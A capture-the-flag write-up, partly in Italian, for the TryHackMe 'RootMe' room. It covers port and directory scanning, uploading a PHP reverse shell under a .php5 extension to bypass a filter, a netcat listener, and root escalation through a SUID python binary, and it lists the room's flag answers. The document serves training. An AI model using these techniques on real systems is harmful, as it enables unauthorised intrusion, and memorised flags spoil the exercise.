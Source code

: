 # RootMe

_________

# Task 1 - Deploy the machine

  # Deploy the machine
    No answer needed

__________

# Task 2 - Reconnaissance

  # Scan the machine, how many ports are open?

 - sudo nmap -p- -open -sV -sC -sS -A -T4 -Pn 'TARGET-IP'

  ![Istantanea_2023-07-31_21-44-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8ef7aa85-2e20-4da3-832f-27460e4bff48)

    Answer: 2
  
  # What version of Apache is running?

    Answer: 2.4.29

  # What service is running on port 22?

    Answer: ssh

  # Find directories on the web server using the GoBuster tool.

    No answer needed

  # What is the hidden directory?

  - gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/big.txt
  
 ![Istantanea_2023-07-31_21-43-04](https://github.com/Manganaccio/Manganaccio/assets/137283468/5cad19e1-68e4-47a2-838a-8474b28c8f20)

 ![Istantanea_2023-07-31_21-48-16](https://github.com/Manganaccio/Manganaccio/assets/137283468/9c5c27fa-66e7-4551-9bfa-d2ebac51d6df)

     Answer: /panel/

__________

  # Task 3 - Getting a shell

  # user.txt

  - Per ottenere la shell sarà necessario fare l'upload del file reverse-shell.php di PentestMonkey, cambiando l'indirizzo IP (quello della macchina attaccante) e il numero della porta;
  - prima di eseguire l'upload cambiare l'estensione del file in "php5" perchè il sito non ammette il caricamento di file in "php";

 ![Istantanea_2023-07-31_21-48-48](https://github.com/Manganaccio/Manganaccio/assets/137283468/5f9520c2-c2ea-4655-abb1-870567231212)

  - in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel file reverse-shell);
  - nel browser navigare nella pagina http://TARGET-IP/uploads/ e aprire la reverse-shell caricata in precedenza;

 ![Istantanea_2023-07-31_22-16-49](https://github.com/Manganaccio/Manganaccio/assets/137283468/df9f36bc-9f33-4a49-a1e0-f103e1a86703)

  - per trovare la flag user.txt navigare in /var/www

 ![Istantanea_2023-07-31_22-20-53](https://github.com/Manganaccio/Manganaccio/assets/137283468/c9292a59-6c4d-4b69-9232-cab7317020e5)

     Answer: THM{y0u_g0t_a_sh3ll}

_________

# Task 4 - Privilege escalation

# Search for files with SUID permission, which file is weird?

- Selezionare il comando: find / -user root -perm /4000

      Answer: /usr/bin/python

# Find a form to escalate your privileges.

      No answer needed

# root.txt

- Navigare su [GTFOBins](https://gtfobins.github.io/) e nella pagina di python cercare la voce SUID (come suggerito a inizio task);
- nel terminale digitare il comando: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
- navigare nella cartella root per trovare la flag root.txt o eseguire il comando: cat /root/root.txt

![Istantanea_2023-07-31_22-53-35](https://github.com/Manganaccio/Manganaccio/assets/137283468/ee007094-dd1b-4094-bff5-93938af2d7fa)

      Answer: THM{pr1v1l3g3_3sc4l4t10n}
  


